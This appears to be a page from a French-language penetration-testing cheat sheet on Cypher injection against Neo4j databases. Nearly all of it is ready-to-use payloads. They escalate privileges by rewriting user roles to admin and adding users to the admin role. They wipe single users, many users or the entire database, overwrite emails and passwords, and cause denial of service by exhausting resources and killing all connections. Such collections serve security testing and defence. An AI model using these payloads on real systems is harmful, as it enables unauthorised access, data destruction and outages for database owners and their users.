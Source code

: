 #### 7.5 Élévation de Privilèges

**📈 Modification de Rôles**

```cypher
-- 🎯 Dans une requête CREATE vulnérable
Original: CREATE (u:User) SET u.name = 'USER_INPUT', u.role = 'user' RETURN u
Payload: test", u.role = "admin" RETURN u //
Final: CREATE (u:User) SET u.name = "test", u.role = "admin" RETURN u //', u.role = 'user' RETURN u

-- 🔧 Modification post-création avec WITH
Original: CREATE (u:User) SET u.name = 'USER_INPUT' RETURN u
Payload: test" WITH u SET u.role = "admin", u.permissions = ["*"] RETURN u //
```

**🛡️ Contournement RBAC**

```cypher
-- 🔍 Énumération des permissions
' UNION CALL dbms.security.listRoles() YIELD role, users RETURN role + ': ' + toString(users) AS result //

-- 👥 Ajout à un groupe privilégié  
' UNION CALL dbms.security.addRoleToUser('admin', 'current_user') YIELD user RETURN user //
```

#### 7.6 Techniques Destructives (⚠️ DANGER)

**💥 Suppression de Données**

```cypher
-- ⚠️ Suppression d'un utilisateur spécifique
' MATCH (target:User {name: 'victim'}) DETACH DELETE target //

-- ⚠️ Suppression massive conditionnelle  
' MATCH (old:User) WHERE old.last_login < datetime() - duration('P1Y') DETACH DELETE old //

-- ⚠️ Suppression totale (EXTRÊMEMENT DANGEREUX)
' MATCH (n) DETACH DELETE n //
```

**🗃️ Corruption de Base**

```cypher
-- ⚠️ Suppression des relations critiques
' MATCH ()-[r:FRIEND|FOLLOW|MEMBER_OF]-() DELETE r //

-- ⚠️ Modification de données critiques
' MATCH (u:User) SET u.email = 'hacked@evil.com', u.password = 'pwned123' //
```

**💀 Déni de Service**

```cypher
-- 💣 Requêtes coûteuses (bombes cartésiennes)
' MATCH (a)-[*]-(b) RETURN count(*) //

-- 🔗 Création de millions de nœuds
' FOREACH (i IN range(1, 1000000) | CREATE (:Spam {id: i})) //

-- 💀 Kill des connexions
' CALL dbms.listConnections() YIELD connectionId WITH collect(connectionId) AS connections CALL dbms.killConnections(connections) YIELD connectionId RETURN connectionId //
```
